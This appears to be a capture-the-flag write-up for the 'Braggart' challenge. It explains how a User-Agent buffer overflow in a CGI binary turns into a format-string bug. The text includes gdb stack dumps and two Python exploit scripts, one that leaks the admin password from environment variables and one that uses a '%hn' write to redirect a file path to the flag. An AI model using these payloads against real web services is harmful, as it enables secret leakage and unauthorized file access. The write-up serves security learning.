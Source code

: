 # Braggart

![chall](./img/chall.png)

For this challenge, a binary and an URL were provided:

![web](./img/web.png)

```bash
$ file sec.bak
sec.bak: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=938da16dc1750d2efaaf4a3abc0e70ea1dea0020, for GNU/Linux 3.2.0, not stripped
```

Analysing the binary, we can spot some vulnerabilities and hidden features:

![main](./img/main.png)



The main function check for an "X-PASSWORD" header and compare its value to the environnement variable "AdminPass", if it's equal, it call the printSecret functions, otherwise, printMain is called.

The main function show that a debug feature can be triggered by passing the "X-DEBUG" header value to 1 when performing HTTP request.
This function prints remote IP address and User Agent information when called.

A buffer overflow can be spotted in the printDebug function:

![debug](./img/debug.png)

Indeed, the value of the User-Agent header is copied without size control. Since stack cookie is present, we cannot overwrite the return address, let's see what we can do.
The following command line is used to debug the program:

```bash
$ QUERY_STRING=TEST REQUEST_METHOD=GET HTTP_X_DEBUG=1 AdminPass=test HTTP_X_PASSWORD=notpassword CONTENT_LENGTH=40 workingDir=/home/ctf/
REMOTE_ADDR=1.1.1.1 HTTP_USER_AGENT=chromium gdb ./sec.bak ; echo
```

A breakpoint is set to the second strcpy call:
![bp](./img/bp.png)

```bash
pwndbg> x/200gx 0x7fffffffd4c0
0x7fffffffd4c0:	0x00312e312e312e31	0x0000000000000000
...
0x7fffffffd860:	0x0000000000021000	0xb21f90d4859a1100 <-- canary
0x7fffffffd870:	0x000000000000060f	0x0000000000000290
0x7fffffffd880:	0x00007ffff7df6c80	0x0000000000000280
0x7fffffffd890:	0x0000000000000029	0xffffffffffffffc0
0x7fffffffd8a0:	0x00007ffff7df6ce0	0x00007ffff7c9eb80
0x7fffffffd8b0:	0x0000000000007325	<--- format
0x7fffffffd8c0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8d0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8e0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8f0:	0x0000000000000000	0x0000000000000000
```
Some .text address, the stack cookie value AND, the format used to print out the User-Agent data are present on the stack. That means that the buffer overflow can be used to trigger a format string bug vulnerability.
Such a bug will be usefull to leak memory and overwrite some locations.

For example, the stack can be read using the leak.py script:

```python
from pwn import *
import requests
import sys

url = "https://nessus-braggart.chals.io/sec.cgi"

for i in range(int(sys.argv[1]),int(sys.argv[2])):
    index = bytes(str(i),'utf-8')
    header = {"User-Agent":cyclic(1008)+b"%"+index+b"$"+bytes(sys.argv[3],'utf-8'),"X-DEBUG":"1"}
    r = requests.get(url, headers=header)
    if "Internal Server Error" in r.text:
        log.info("Fail to read offset")
        continue
    res = r.text.split("User Agent : </h3>")[1].split("</pre>")[0]
    print(res)
```
(script has been improoved later :D)
The password is obtained by leaking environnement variables:

![leak](./img/leak.png)

Let's get the flag !

![nottheflag](./img/nottheflag.png)

... Let's analyse the printSecret function:

![secrets](./img/secrets.png)

The full path which is opened is build in two parts, first, the program get the workingDir environnement variable, then concat the word "brag" to it.

Since we control a format string bug, it is possible to overwrite "brag" with "flag" and get the flag !

To perform such an exploit, the "brag" string pointer offset is needed, let's fuzz again but withing the "printSecret" function (which call the printDebug and trig the overflow).

```
...
260 -> (null)
261 -> (null)
262 -> (null)
[*] Fail to read offset
264 -> À9°ý\x7f                                        \x05Y\x0b
266 ->
267 -> brag
268 -> /home/ctf/
269 ->
```

String "brag" is identified at offset 267. Now, the only thinkg to do is to overwrite 2 bytes "br" with "fl", and the final path will be /home/ctf/flag.

```python
from pwn import *
import requests

url = "https://nessus-braggart.chals.io/sec.cgi"

password = "xbYP3h7Ua94c" # This was added after fuzzing

header = {"User-Agent":cyclic(1008)+b"%27750x%267$hn","X-DEBUG":"1","X-PASSWORD":password} # 27750 -> '0x6c66' --> lf
r = requests.get(url, headers=header)
print(r.text)
```
```
flag{f0rmat_th3m_str1ngz}
```


